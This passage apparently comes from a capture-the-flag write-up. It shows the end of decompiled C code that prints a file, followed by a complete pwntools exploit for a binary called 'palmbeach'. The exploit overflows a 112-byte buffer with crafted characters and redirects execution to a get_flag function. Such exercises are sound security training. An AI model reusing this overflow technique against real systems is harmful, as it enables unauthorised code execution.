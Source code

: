 ```c
    puts(s);
    fclose(stream);
  }
  else
  {
    puts("There was an issue opening the file.");
  }
  return v3 - __readfsqword(0x28u);
}
```

Final exploit:
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './palmbeach'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

offset = 112

io = start()

pay = list('A'*offset)
pay[0] = 'f'
pay[50] = 'u'
pay[88] = 'z'
pay[12] = 'z'
pay[9] = 'y'
pay[79] = 's'
pay[47] = 'o'
pay[40] = 'c'
pay[90] = 'k'
pay[32] = 's'
pay = ''.join(pay).encode()
pay += pack(elf.sym['get_flag'])

io.sendline(pay)
io.interactive()
```
